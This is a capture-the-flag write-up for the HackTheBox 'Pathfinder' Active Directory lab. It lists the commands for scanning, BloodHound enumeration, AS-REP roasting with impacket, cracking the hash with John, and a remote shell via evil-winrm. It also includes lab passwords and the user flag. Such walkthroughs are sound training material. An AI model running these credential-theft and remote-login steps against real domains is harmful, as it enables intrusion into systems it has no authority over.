

# Pathfinder


## Recon 

- nmap 
```
# nmap -A -T4 10.10.10.30
```


- Open port 
    1. 52      - DNS
    2. 88      - Kerberos-sec
    3. 135     - msrpc
    4. 139     - netbios-ssn
    5. 389     - ldap
    6. 445     - microsoft-ds ?
    7. 464     - kpasswd5 ?
    8. 593     - ncacn_http
    9. 636     - tcpwrapped 
    10. 3268   - ldap
    11. 3269   - tcpwrapped

### Pre-Exploit

- [Tools - BloodHound.py](https://github.com/fox-it/BloodHound.py)

```
# bloodhound-python -d megacorp.local -u sandra -p Passwrod1234! -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```


```
# ls -l *.json
```


```
# apt-get install neo4j bloodhound
```


```
# neo4j console
```


```
defautl 
neo4j / neo4j 
my site 
neo4j / Password
```

```
bloodhound --no-sandbox
```


```
zip megacorp.zip *.json
```



#### Shortest Path to High target Value


#### Finding Principle with DCSyns Rights


## Foothold

- [ASREPRoasting](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/) 
- [Roasting AS-REPs](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

### Exploitation


- In impacket tools, there is a program call "GetNPUsers.py"
- Use this to check Kerberos pre-authentication be disabled or not 


```
# python3 GetNPUsers.py magacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
```


#### Issue 

- impacket version : 0.9.22
- When you try to execute GetNPUser.py, it will return the following error 
```
ModuleNotFoundError: No module named 'impacket.examples.utils'
```


- the error cause from the import utils which include the function parse_credentials 
- parse_credentials is used to search kerberos account message 
- After searching this file (utils) in the impacket directory, we found it locate in ```impacket/impacket/examples/utils```
- it seems the location is right ....
- but it will always failed with above error
- so, when you encounter this error message, just try to edit the python file - GetNPUsers, and modify the impacket.examples.utils to utils
```
Modify 
# from impacket.examples.utils import parse_credentials 
to 
# from utils import parse_credentials
```


- The result of GetNPUsers


- Using John&Ripper to crack the credential 

```
# john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


- evil-winrm is a Windows遠程管理(WinRM) Shell工具
```
# sudo gem install evil-winrm
```


### Reference 

- [evil-winrm Github](https://github.com/Hackplayers/evil-winrm)
- [evil-winrm Freebuf](https://www.freebuf.com/sectool/210479.html)


- Using it to login svc_bes

```
# evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

```


- Find Flag 

```
# c:\\Users\svc_bes\Desktop\user.txt
```


- get flag1 (user.txt)
 
```
b05fb166688a8603d970c6d033f637f1
```


## Privileged Escalation 

## Reference 

- [evil-winrm Github](https://github.com/Hackplayers/evil-winrm)
- [evil-winrm Freebuf](https://www.freebuf.com/sectool/210479.html)
- [BloodHound installing](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
- [Post Exploitation Basics - BloodHound insgall and usage](https://github.com/sebastiendamaye/TryHackMe/tree/master/Post-Exploitation_Basics)
- [bloodhound-python](https://github.com/fox-it/BloodHound.py)
- [write up 1](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-PathFinder)
- [Active Directory渗透测试典型案例1](https://cloud.tencent.com/developer/article/1436952?from=article.detail.1439383)
- [Active Directory渗透测试典型案例2](https://cloud.tencent.com/developer/article/1439383)
- [ASREPRoasting](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/) 
- [Roasting AS-REPs](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)
- [Impacket Github](https://github.com/SecureAuthCorp/impacket)
- [SMBClient](https://iter01.com/89916.html)
- [LDAP](https://itman.pixnet.net/blog/post/26817279)

#### Kali fail to fetch issue 

- [Failed to fetch solution 1](https://linuxconfig.org/kali-linux-failed-to-fetch-inrelease-repository-fix)


###### tags: `HackTheBox` `Windows`